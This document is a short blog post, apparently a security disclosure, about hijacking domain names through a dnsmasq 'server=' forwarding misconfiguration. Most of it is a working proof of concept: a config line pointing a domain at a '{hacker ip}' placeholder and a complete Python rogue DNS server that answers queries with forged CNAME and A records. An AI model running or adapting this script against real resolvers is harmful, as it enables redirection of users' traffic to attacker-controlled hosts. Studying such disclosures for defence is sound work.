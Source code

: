 ```yaml
---
title: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
date: 2020-09-09 16:50:00
tags: [dns, dnsmasq]
description: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
sitemap: false
---
```


# dnsmasq
> Dnsmasq provides network infrastructure for small networks: DNS, DHCP, router advertisement and network boot. It is designed to be lightweight and have a small footprint, suitable for resource constrained routers and firewalls. It has also been widely used for tethering on smartphones and portable hotspots, and to support virtual networking in virtualisation frameworks. Supported platforms include Linux (with glibc and uclibc), Android, *BSD, and Mac OS X. Dnsmasq is included in most Linux distributions and the ports systems of FreeBSD, OpenBSD and NetBSD. Dnsmasq provides full IPv6 support.  

[dnsmasq homepage][1]

## exploit
1. add this config to `dnsmasq.conf` or `dnsmasq.d/poc.conf`
```
server=/a.net/{hacker ip}
```
then restart the dnsmasq to activate this config.  
* dnsmasq.conf is usually at /usr/local/etc/ if in mac os

2. run this code in the {hacker ip} - `poc.py`

```python
#!/usr/bin/env python3

import sys
from socket import socket, AF_INET, SOCK_DGRAM

class dns:
    def __init__(self):
        # hdr
        self.transactionID  = b"\x00\x00" # --
        self.flags          = b"\x81\x80"
        self.questionNum    = b"\x00\x01"
        self.answerRR       = b"\x00\x02"
        self.authorityRR    = b"\x00\x00"
        self.additionalRR   = b"\x00\x00"

        # queries - only one we need
        self.qname  = b"\x01a\x03net\x00" # -- 0x0c
        self.qtype  = b"\x00\x01"
        self.qclass = b"\x00\x01"

        # answers - CNAME
        self.cnameName    = b"\xc0\x0c"
        self.cnameType    = b"\x00\x05"
        self.cnameClass   = b"\x00\x01"
        self.cnameTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.cnameDataLen = b"\x00\x0d" # --
        self.cnameTarget  = b"\x07example\x03net\x00"  # --

        # answers - A
        self.aName    = b"\xc0\x19"  # --
        self.aType    = b"\x00\x01"
        self.aCLass   = b"\x00\x01"
        self.aTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.aDataLen = b"\x00\x04"
        self.aRecord  = b"\x01\x02\x03\x04"
    
    def _setReply(self, query: bytes):
        self.transactionID = query[:2]
        i = 0x0c
        while i < len(query):
            if query[i] == 0:
                break
            i += 1
        self.qname = query[0x0c:i+1]
        self.aName = ((len(self.qname) + 28) | 0xc000).to_bytes(2, byteorder="big")

    def build(self, query: bytes):
        """build dns response to query"""
        self._setReply(query)
        # build
        hdr = self.transactionID + self.flags + self.questionNum + self.answerRR + self.authorityRR + self.additionalRR
        query = self.qname + self.qtype + self.qclass
        answerCNAME = self.cnameName + self.cnameType + self.cnameClass + self.cnameTtl + self.cnameDataLen + self.cnameTarget
        answerA = self.aName + self.aType + self.aCLass + self.aTtl + self.aDataLen + self.aRecord

        return hdr + query + answerCNAME + answerA  


def dns_server(port: int):
    address = ('', port)
    sock = socket(AF_INET, SOCK_DGRAM)
    sock.bind(address)
    print("Listen UDP on: ", port)
    while True:
        msg, addr = sock.recvfrom(8192)
        print("recv from:", addr)
        if len(msg) > 20:
            d = dns()
            data = d.build(msg)
            sock.sendto(data, addr)


if __name__ == '__main__':
    port = 53
    if len(sys.argv) > 1 and sys.argv[1].isdigit():
        port = int(sys.argv[1])
    dns_server(port)

```

3. check hijack

![poc][2]

[1]: http://www.thekelleys.org.uk/dnsmasq/doc.html
[2]: /assets/images/poc.jpeg